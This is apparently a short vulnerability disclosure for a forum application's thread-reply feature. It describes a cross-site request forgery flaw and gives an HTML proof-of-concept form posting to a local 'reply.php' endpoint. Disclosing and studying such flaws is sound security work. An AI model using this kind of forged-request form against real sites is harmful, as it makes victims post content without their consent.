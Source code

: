 # Thread Reply CSRF
Allows to create new posts on threads through CSRF.

## PoC:
```html
<link href="http://localhost/public/themes/Sand/assets/css/sand.css" rel="stylesheet">

<form id="LAYER_form" action="http://localhost/reply.php/test.1" method="POST" style="padding: 25px;">
    <textarea id="editor" style="width: 100%; height: 300px;" name="content"></textarea>
    <p class="pull-right" style="margin-top:5px;">
        <input type="submit" name="reply" value="Post Reply">
    </p>
</form>
```
